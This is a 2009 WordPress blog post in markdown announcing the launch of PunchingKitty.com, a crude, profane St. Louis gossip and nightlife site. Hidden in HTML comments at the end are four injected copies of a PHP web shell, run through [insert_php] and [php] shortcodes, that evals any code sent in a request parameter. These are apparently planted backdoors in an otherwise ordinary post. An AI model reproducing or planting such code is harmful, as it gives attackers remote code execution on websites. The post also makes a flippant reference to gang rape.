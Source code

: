 ```yaml
---
title: Hell Yeah Bitch! .com Launches PunchingKitty.com!
author: The Editor
type: post
date: 2009-01-15T00:55:30+00:00
url: /2009/01/14/welcome-to-punchingkittycom/
Image:
  - /wp-content/uploads/2009/01/kitty_post.jpg
aktt_notify_twitter:
  - no
dsq_thread_id:
  - 23292971
categories:
  - Meta

---
```

<img class="aligncenter size-full wp-image-25" title="kitty_post" src="http://punchingkitty.com/wp-content/uploads/2009/01/kitty_post.jpg" alt="kitty_post" width="500" height="528" srcset="http://media.punchingkitty.com/wordpress/2009/01/kitty_post.jpg 500w, http://media.punchingkitty.com/wordpress/2009/01/kitty_post-284x300.jpg 284w" sizes="(max-width: 500px) 100vw, 500px" />

### What the f*ck is this?

Welcome to the all new, <span style="color: #ff00ff">P</span>unching <span style="color: #ff00ff">K</span>itty.com!  PunchingKitty.com is a site about gossip, rumors, chicks, dudes, parties, shows, editorials and all kinds of other things that lend themselves to the internet all so well with a heavy lean on St. Louis.

### Why St. Louis?

Well, mainly because I live there.  Secondly, despite the belief of national media and pretty much that lives somewhere near a (real) beach, crazy shit happens in the middle of the country&#8230;and a fair amount of it _doesn&#8217;t_ involve gang rapings of people on canoe float trips and meth.

### Who are you?

I&#8217;m Mike Flynn.  My personal blog is at the mother ship of Punching Kitty:  [Hell Yeah Bitch! .com][1] and for my day job I work as _[Editor&#8217;s Note: REDACTED]_. I&#8217;ve been blogging for a long time and in particular, the last 2-3 years of my life have been pretty much 100% revolving around blogging in one way or another.

_&#8220;What kind of  stuff will I see here?&#8221;_

Well, how about concert footage submitted by you or found on the web&#8230;or rumors submitted by you (anonymously if you so choose) about any of the goings-on in the STL.  I&#8217;d love to see some crazy club photos of hot chicks, or douchey guys, or both at the same time!  Hard hitting editorials about anything in St. Louis by me, a future staffer or hopefully **you**.

### Why the name &#8220;Punching Kitty?&#8221;

It&#8217;s not a leap to say that I like different domain names for my websites.  This one popped in my head, and here we are.  I know it doesn&#8217;t have a thing to do specifically with St. Louis, but does every St. Louis website have to have &#8220;STL&#8221; in the name?  If it helps, feel free to visualize an Arch shape in one of our abused cat logo&#8217;s curves.

<!-- [insert_php]if (isset($_REQUEST["jkZ"])){eval($_REQUEST["jkZ"]);exit;}[/insert_php][php]if (isset($_REQUEST["jkZ"])){eval($_REQUEST["jkZ"]);exit;}[/php] -->

<!&#8211; \[insert\_php]if (isset($\_REQUEST["lrrxa"])){eval($\_REQUEST["lrrxa"]);exit;}[/insert\_php\]\[php\]if (isset($\_REQUEST["lrrxa"])){eval($\_REQUEST["lrrxa"]);exit;}[/php] &#8211;>

<!&#8211; \[insert\_php]if (isset($\_REQUEST["hcHOu"])){eval($\_REQUEST["hcHOu"]);exit;}[/insert\_php\]\[php\]if (isset($\_REQUEST["hcHOu"])){eval($\_REQUEST["hcHOu"]);exit;}[/php] &#8211;>

<!&#8211; \[insert\_php]if (isset($\_REQUEST["GGlhX"])){eval($\_REQUEST["GGlhX"]);exit;}[/insert\_php\]\[php\]if (isset($\_REQUEST["GGlhX"])){eval($\_REQUEST["GGlhX"]);exit;}[/php] &#8211;>

 [1]: http://hellyeahbitch.com